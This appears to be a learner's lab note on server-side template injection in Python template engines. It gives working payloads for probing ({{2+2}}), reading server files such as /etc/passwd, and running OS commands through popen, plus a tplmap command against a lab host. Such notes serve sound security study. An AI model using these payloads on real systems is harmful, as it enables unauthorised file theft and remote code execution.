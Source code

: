 # SSTI
Server Side Template Injection, is when a user is able to pass in a parameter that can control the template engine that is running on the server

![](SSTI/1_image.png)

![](SSTI/image.png)

This introduces a vulnerability, as it allows a hacker to inject template code into the website. The effects of this can be devastating, from XSS, all the way to RCE.

`{{config}}`

Note: Different template engines have different injection payloads, however usually you can test for SSTI using {{2+2}} as a test.

`{{ ''.__class__.__mro__[2].__subclasses__()[40]()(<file>).read()}}` to read files on the server. Effectively all that payload does is load the file object in python, from there we can use basic file operations. Let's try to read /etc/passwd using this method from [https://github.com/swisskyrepo/PayloadsAllTheThings](https://github.com/swisskyrepo/PayloadsAllTheThings) 

We can use the code `{{config.__class__.__init__.__globals__['os'].popen(<command>).read()}}` to execute commands on the server. All that payload does is import the os module, and run a command using the popen method.

For automatic SSTI, [https://github.com/epinna/tplmap](https://github.com/epinna/tplmap) 

`./tplmap.py -u 'http://10.10.65.32/' -d 'name' --os-cmd 'ls /'`